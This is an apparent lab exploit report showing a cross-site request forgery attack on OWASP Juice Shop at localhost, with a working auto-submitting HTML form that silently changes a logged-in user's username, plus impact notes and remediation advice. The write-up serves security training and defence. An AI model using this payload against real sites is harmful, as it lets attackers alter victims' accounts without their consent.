




# Exploit Report: Cross-Site Request Forgery (CSRF)

## Vulnerability Overview

* **Vulnerability Type:** Cross-Site Request Forgery (OWASP A01:2021 – Broken Access Control)
* **Target Endpoint:** User Profile Update (`http://localhost:3000/profile`)
* **Vulnerable Parameter:** `username` (POST body field)
* **Severity:** medium
* **Exploitation Status:** Successfully Exploited

---

## Technical Description

Cross-Site Request Forgery (CSRF) occurs when a web application processes state-changing requests without validating that the request was intentionally initiated by the authenticated user. In OWASP Juice Shop, the `POST /profile` endpoint accepts profile update requests using `application/x-www-form-urlencoded` content type without requiring a CSRF token or verifying the request origin. An attacker can craft a malicious HTML page that automatically submits a hidden form to the target endpoint, silently modifying the victim's profile data when they visit the attacker-controlled page while authenticated.

---

## Proof of Concept & Exploitation Steps

### Step 1: Identify the Vulnerable Request

Intercepting the profile update request in Burp Suite reveals that the `POST /profile` endpoint accepts a `username` parameter and processes it without any anti-CSRF token:

```http
POST /profile HTTP/1.1
Host: localhost:3000
Content-Type: application/x-www-form-urlencoded
Cookie: token=<session_token>

username=test
```

The server responds with `302 Found`, redirecting back to `/profile` after applying the change — confirming no CSRF protection is enforced.

### Step 2: Craft the Malicious HTML Page

A minimal PoC page is constructed with a hidden form targeting the vulnerable endpoint. JavaScript auto-submits the form on page load:

```html
<!DOCTYPE html>
<html>
<body>
  <h2>CSRF Lab Test</h2>

  <form action="http://localhost:3000/profile"
        method="post">
    <input type="hidden" name="username" value="CSRF-test" />
  </form>

  <script>
    window.onload = function() {
      document.forms[0].submit();
    };
  </script>

</body>
</html>
```

### Step 3: Execution & Verification

1. Log in to OWASP Juice Shop as a standard user (`test@t.t`) and confirm the current username is `test` on the User Profile page (`/#/profile`).
2. Open the malicious `poc.html` file in the same browser where the victim session is active.
3. The hidden form auto-submits a `POST /profile` request with `username=CSRF-test` using the victim's session cookie.
4. Navigate back to the User Profile page and observe that the username has been silently changed from `test` to `CSRF-test` without any user interaction or consent.

---

## Evidence & Screenshots


*Figure 1: User Profile page before the attack — username is set to `test`.*


*Figure 2: Burp Suite showing the `POST /profile` request with `username=test` in the body and the `302 Found` response — no CSRF token present.*


*Figure 3: The malicious CSRF PoC HTML page that auto-submits a hidden form to change the victim's username.*


*Figure 4: User Profile page after the attack — username has been silently changed to `CSRF-test` by the malicious page.*

---

## Real-World Impact

* **Unauthorized Profile Modification:** Attackers can silently alter victim account details (usernames, emails, profile images) without user knowledge or consent.
* **Account Takeover Chain:** Combined with other vulnerabilities (such as changing the email to an attacker-controlled address), CSRF can facilitate full account takeover via password reset flows.
* **Malicious Actions on Behalf of Victim:** Attackers can trigger any state-changing action the victim is authorized to perform — placing orders, modifying settings, or deleting data.

---

## Remediation & Mitigation

### 1. Implement Anti-CSRF Tokens

Generate a unique, unpredictable token per session (or per request) and embed it as a hidden field in every state-changing form. Validate the token server-side before processing the request:

```javascript
// Server-side token validation
if (req.body._csrf !== req.session.csrfToken) {
  return res.status(403).json({ error: 'Invalid CSRF token' });
}
```

### 2. Enforce SameSite Cookie Attribute

Set the `SameSite` attribute on session cookies to `Strict` or `Lax` to prevent the browser from sending cookies on cross-origin requests:

```http
Set-Cookie: token=<value>; SameSite=Strict; HttpOnly; Secure
```

### 3. Validate Origin and Referer Headers

As a defense-in-depth measure, verify the `Origin` and `Referer` headers on incoming state-changing requests to ensure they originate from the same domain.


